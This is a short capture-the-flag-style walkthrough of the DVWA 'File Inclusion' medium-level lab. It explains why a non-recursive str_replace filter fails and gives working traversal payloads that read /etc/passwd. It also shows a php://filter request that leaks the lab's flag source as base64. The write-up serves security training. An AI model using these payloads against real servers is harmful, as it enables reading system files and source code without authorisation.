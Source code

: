 #+TITLE: DVWA - File Inclusion Medium
#+AUTHOR: Leonardo Tamiano

* Description
  Here we introduce a little bit of ~input validation~

  #+begin_src php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );

?>
  #+end_src

  In particular it tries to remove all sorts of ~http~ and ~https~
  protocol usage, trying to remove the possibility for a Remote File
  Inclusion (RFI), and it also replaces ~../~ with the empty string.

* Solution
  The way the ~../~ character sequence is taken care of is not enough,
  because the validation is not done recursively. We can create a
  payload such that, after the initial ~../~ are removed, new ~../~ are
  formed. One such payload is shown below

  #+begin_example
....//....//....//....//....//etc/passwd
  #+end_example

  Notice how when we remove the first bunch of ~../~, others are formed

  #+begin_example
....// -> ../
  #+end_example

  therefore we get

  #+begin_example
../../../../../etc/passwd
  #+end_example

  In particular, with the following GET we leak the passwd file

  #+begin_example
http://evil/vulnerabilities/fi/?page=....//....//....//....//....//etc/passwd
  #+end_example

  and then by also adding the php filters we can also leak the server's php code.

  #+begin_example
http://evil/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=....//....//....//....//....//var/www/html/hackable/flags/fi.php
  #+end_example

  and we get the following base64

  #+begin_example
PD9waHAKCmlmKCAhZGVmaW5lZCggJ0RWV0FfV0VCX1BBR0VfVE9fUk9PVCcgKSApIHsKCWV4aXQgKCJOaWNlIHRyeSA7LSkuIFVzZSB0aGUgZmlsZSBpbmNsdWRlIG5leHQgdGltZSEiKTsKfQoKPz4KCjEuKSBCb25kLiBKYW1lcyBCb25kCgo8P3BocAoKZWNobyAiMi4pIE15IG5hbWUgaXMgU2hlcmxvY2sgSG9sbWVzLiBJdCBpcyBteSBidXNpbmVzcyB0byBrbm93IHdoYXQgb3RoZXIgcGVvcGxlIGRvbid0IGtub3cuXG5cbjxiciAvPjxiciAvPlxuIjsKCiRsaW5lMyA9ICIzLikgUm9tZW8sIFJvbWVvISBXaGVyZWZvcmUgYXJ0IHRob3UgUm9tZW8
  #+end_example

  --------------------

  To get an RFI instead we can use ~php streams~.
